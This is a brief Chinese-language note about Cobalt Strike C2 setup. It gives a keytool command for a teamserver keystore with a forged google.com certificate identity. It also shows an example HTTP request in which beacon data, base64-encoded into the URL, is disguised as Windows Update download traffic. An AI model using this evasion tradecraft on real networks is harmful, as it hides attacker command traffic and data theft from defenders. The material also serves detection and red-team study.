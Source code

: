 ### CobaltStrike login server
    cobaltstrike客户端与团队服务端通讯走ssl，默认证书配置在teamserver文件中
    keytool -keystore ./cobaltstrike.store -storepass 123456 -keypass 123456 -genkey -keyalg RSA -alias cobaltstrike -dname "CN=google.com OU=xsser, O=xsser, L=Somewhere, S=Cyberspace, C=Earth"

### CobaltStrike download.windowsupdate.com C2 Profile
    正常windows更新域名，uri是十六进制形式，日期变动，格式固定。cobaltstrike c2通过更改host伪造windows更新产生的流量，将传输的
    数据base64后放到url中，例如：
    GET /c/msdownload/update/others/2016/12/29136388_oY_bIWScNUZ3X5ebOUqkFA.cab HTTP/1.1
    Accept: */*
    Host: download.windowsupdate.com
    User-Agent: Windows-Update-Agent/10.0.10011.16384 Client-Protocol/1.40
    windows更新正常格式“/c/msdownload/update/others/2012/02/8位数字_40位十六进制.cab”

